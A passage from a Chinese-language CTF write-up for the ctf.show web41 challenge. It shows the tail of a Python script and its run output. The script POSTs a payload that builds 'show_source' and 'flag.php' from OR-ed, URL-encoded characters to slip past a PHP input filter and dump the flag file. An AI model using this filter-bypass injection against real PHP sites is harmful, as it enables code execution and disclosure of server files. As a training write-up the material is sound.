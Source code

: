 ```python
        'c': urllib.parse.unquote(param) # 解码
    }
    print(param+"\n")
    print(data)
    r = requests.post(url, data=data)
    print("\n[*] result:\n" + r.text)

```

程序运行结果如下图, 可以看到flag已经在响应包里了

```
D:\python learning\ctf>py web41.py http://080c3454-e571-44f6-80db-b2aac9c9e04e.challenge.ctf.show/

[+] your function：show_source
[+] your command：flag.php

下面这两行是 param的内容, 对应位置的字符进行或运算可以分别得到 show_source 和 flag.php
("%13%08%0f%17%00%13%0f%15%12%03%05"|"%60%60%60%60%5f%60%60%60%60%60%60")  ("%06%0c%01%07%00%10%08%10"|"%60%60%60%60%2e%60%60%60")
下面是最后准备POST的参数c的内容
{'c': '("\x13\x08\x0f\x17\x00\x13\x0f\x15\x12\x03\x05"|"````_``````")("\x06\x0c\x01\x07\x00\x10\x08\x10"|"````.```")'}

[*] result:
<code><span style="color: #000000">
<br /></span><span style="color: #0000BB">$flag</span><span style="color: #007700">=</span><span style="color: #DD0000"><br /></span>8161-85c6-4f0d-86b7-d83330fadd27}"</span><span style="color: #007700">;
</span>
</code>1
```



在上述python脚本中,` param`中字符原本为url编码的格式,也就是`%xx`格式, 它们解码后的字符都不在题目的过滤范围之内

35行需要对这些字符进行解码是因为它们在发送时还会被url编码, 这里的解码和后面发送时的自动编码是成对的. 抓包也能证明这一点

<img src="/images/ctf-web06/image-20220925210440486.png" alt="image-20220925210440486" style="zoom:67%;" />



所以当这个包到达目标服务器时,按照正常流程还应该进行url解码, 所以题目给的脚本检测的实际上正是`param`的形式,因此也就绕过了过滤. 









